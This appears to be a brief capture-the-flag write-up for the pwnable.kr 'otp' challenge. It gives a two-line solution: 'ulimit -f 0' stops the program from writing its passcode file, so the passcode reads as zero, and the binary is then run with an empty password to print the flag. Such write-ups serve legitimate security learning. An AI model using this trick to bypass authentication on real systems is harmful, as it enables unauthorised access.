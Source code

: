 #pwnable.kr -- Rookiss -- otp
Actually, the program do not check whether it does read `passcode`.

So just use `ulimit -f 0` to forbid program write any bytes and `passcode` will must be `0`.

## 1. Challenge
  > I made a skeleton interface for one time password authentication system.  
  > I guess there are no mistakes.  
  > could you take a look at it?  
  >   
  > hint : not a race condition. do not bruteforce.  
  >   
  > ssh otp@pwnable.kr -p2222 (pw:guest)  

## 2. Solution
  * Connect via SSH, then:

    ```bash
    $ ulimit -f 0
    $ python -c "import subprocess; subprocess.Popen(['/home/otp/otp', '']); exit()"
    ```

    You will get the flag.
